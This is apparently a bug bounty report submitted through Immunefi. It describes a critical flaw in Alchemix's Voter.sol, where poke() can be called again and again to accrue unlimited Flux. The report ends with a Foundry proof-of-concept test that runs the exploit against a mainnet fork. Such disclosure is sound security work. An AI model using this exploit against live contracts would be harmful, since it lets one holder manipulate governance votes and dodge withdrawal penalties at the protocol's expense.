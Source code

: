 
# Vulnerability in the poke function of Voting contract allows a veALCX holder to accrue unlimited amount of Flux

Submitted on Fri May 17 2024 16:57:04 GMT-0400 (Atlantic Standard Time) by @b0g0 for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31388

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results
- User can indefinitely accrue and mint FluxTokens

## Description
## Brief/Intro
The `poke()` function of `Voter.sol` introduces a vulnerability,  allowing a token holder to increase his Flux balance as much as he likes. Unrestricted supply of Flux gives unfair advantage to voter and allows him to influence the votes and escape penalty when withdrawing

## Vulnerability Details

`Voter.sol` has 3 main function to manage votes:
- `vote()` - used to vote for pools (called `ONCE` per epoch)
- `poke()`- updates the voting status of an existing vote (can be called `MANY` time per epoch)
-  `reset()`- resets the vote ( called `ONCE` per epoch)

Both `vote()` and `poke()` call the internal `_vote()` function, which resets the previous vote, creates a new vote based on the current voting power and accrues new Flux based on it:

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L412

```solidity
 function _vote(uint256 _tokenId, address[] memory _poolVote, uint256[] memory _weights, uint256 _boost) internal {
         // 1. Reset previous vote
        _reset(_tokenId);

        ....

        // 2. Accrue flux
        IFluxToken(FLUX).accrueFlux(_tokenId);

         // 3. calculate weights and create vote
        uint256 totalPower = (IVotingEscrow(veALCX).balanceOfToken(_tokenId) + _boost);
         ....
    }
```
The important part to focus on here is that `Flux is accrued` `every` time `_vote()` is invoked.  The amount accrued is based on the token voting power. `FluxToken::accrueFlux()` looks like this:

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/FluxToken.sol#L188

```solidity
function accrueFlux(uint256 _tokenId) external {
        require(msg.sender == voter, "not voter");
        uint256 amount = IVotingEscrow(veALCX).claimableFlux(_tokenId);
        unclaimedFlux[_tokenId] += amount;
    }
```
The other important thing to note about FLUX is that it should accrue once `EACH EPOCH`

The docs explicitly state that :
> `The FLUX token is a special reward token that accrues to veALCX positions each epoch...`

Link -> https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/CONTRACTS.md#fluxtokensol

**And this is where the bug lies** - `Voter::poke()` can be called an unlimited amount of times each epoch. As a result `_vote()` will also be called, meaning Flux balances will get accrued on every call, practically enabling the token owner to source as much Flux as he wants.


## Impact Details
Having an unlimited supply of Flux gives the NFT owner the power to:
- boost all his votes, all the time, influencing the outcome of the votes for the pools - the bigger the value locked in an NFT, the more Flux it can steal and the greater influence it can have on the votes

- unlock his position at any time - effectively evading penalty and withdrawing much sooner than intended. This defeats the whole purpose of escrowing and causes harm to the protocol

## References

The `poke()` function:

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L195

        
## Proof of concept
## Proof of Concept
I've added a POC inside the currently existing `Voting.t.sol` test file:
https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/test/Voting.t.sol

You can run the POC like this:
`forge test --mt testPokeExploit  --fork-url https://eth.llamarpc.com --fork-block-number 17133822  -vvvv`

```solidity
function testPokeExploit() public {
        // Lock ALCX token for max period to get max voting power
        uint256 tokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, true);

        // No unclaimed flux token
        uint256 unclaimedBalance = flux.getUnclaimedFlux(tokenId);
        assertEq(unclaimedBalance, 0);

        // Impersonate token owner and call poke()
        hevm.startPrank(admin);
        voter.poke(tokenId);

        // Flux has been accrued
        unclaimedBalance = flux.getUnclaimedFlux(tokenId);
        assertEq(unclaimedBalance, 997259164121562177);

        // call poke()and  accrue unclaimed Flux again
        voter.poke(tokenId);

        // Flux has increased x2
        uint256 unclaimedBalance_x2 = flux.getUnclaimedFlux(tokenId);
        assertEq(unclaimedBalance_x2, unclaimedBalance * 2);

        // Flux has increased x3
        voter.poke(tokenId);
        uint256 unclaimedBalance_x3 = flux.getUnclaimedFlux(tokenId);
        assertEq(unclaimedBalance_x3, unclaimedBalance * 3);

        // Flux has increased x4
        voter.poke(tokenId);
        uint256 unclaimedBalance_x4 = flux.getUnclaimedFlux(tokenId);
        assertEq(unclaimedBalance_x4, unclaimedBalance * 4);
    }
```
